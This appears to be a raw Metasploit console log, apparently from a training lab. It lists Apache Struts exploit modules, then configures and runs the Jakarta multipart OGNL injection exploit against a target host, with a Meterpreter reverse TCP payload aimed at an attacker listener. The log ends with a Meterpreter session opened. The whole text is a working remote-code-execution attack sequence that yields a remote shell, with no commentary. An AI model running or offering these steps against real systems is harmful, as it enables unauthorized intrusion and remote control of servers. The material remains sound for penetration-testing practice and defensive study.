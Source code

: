   ~~~bash
     #  Name                                             Disclosure Date  Rank       Check  Description
     -  ----                                             ---------------  ----       -----  -----------
     0  exploit/multi/http/struts2_code_exec_showcase    2017-07-07       excellent  Yes    Apache Struts 2 Struts 1 Plugin Showcase OGNL Code Execution
     1  exploit/multi/http/struts2_content_type_ognl     2017-03-07       excellent  Yes    Apache Struts Jakarta Multipart Parser OGNL Injection
     2  exploit/multi/http/struts2_namespace_ognl        2018-08-22       excellent  Yes    Apache Struts 2 Namespace Redirect OGNL Injection
     3  exploit/multi/http/struts2_rest_xstream          2017-09-05       excellent  Yes    Apache Struts 2 REST Plugin XStream RCE
     4  exploit/multi/http/struts_code_exec_classloader  2014-03-06       manual     No     Apache Struts ClassLoader Manipulation Remote Code Execution
     5  exploit/multi/http/struts_code_exec_parameters   2011-10-01       excellent  Yes    Apache Struts ParametersInterceptor Remote Code Execution
     6  exploit/multi/http/struts_dev_mode               2012-01-06       excellent  Yes    Apache Struts 2 Developer Mode OGNL Execution
  
  
  Interact with a module by name or index, for example use 6 or use exploit/multi/http/struts_dev_mode
  
  msf5 > use exploit/multi/http/struts2_content_type_ognl
  [*] No payload configured, defaulting to linux/x64/meterpreter/reverse_tcp
  
  msf5 exploit(multi/http/struts2_content_type_ognl) > show options
  
  Module options (exploit/multi/http/struts2_content_type_ognl):
  
     Name       Current Setting   Required  Description
     ----       ---------------   --------  -----------
     Proxies                      no        A proxy chain of format type:host:port[,type:host:port][...]
     RHOSTS     10.10.130.244     yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
     RPORT      80                yes       The target port (TCP)
     SSL        false             no        Negotiate SSL/TLS for outgoing connections
     TARGETURI  /showcase.action  yes       The path to a struts application action
     VHOST                        no        HTTP server virtual host
  
  
  Payload options (linux/x64/meterpreter/reverse_tcp):
  
     Name   Current Setting  Required  Description
     ----   ---------------  --------  -----------
     LHOST  10.9.90.233      yes       The listen address (an interface may be specified)
     LPORT  4444             yes       The listen port
  
  
  Exploit target:
  
     Id  Name
     --  ----
     0   Universal
  
  msf5 exploit(multi/http/struts2_content_type_ognl) > run
  
  [*] Started reverse TCP handler on 10.9.90.233:4444 
  [*] Sending stage (3012516 bytes) to 10.10.130.244
  [*] Meterpreter session 1 opened (10.9.90.233:4444 -> 10.10.130.244:33186) at 2020-09-18 23:03:09 +0200
  
  ~~~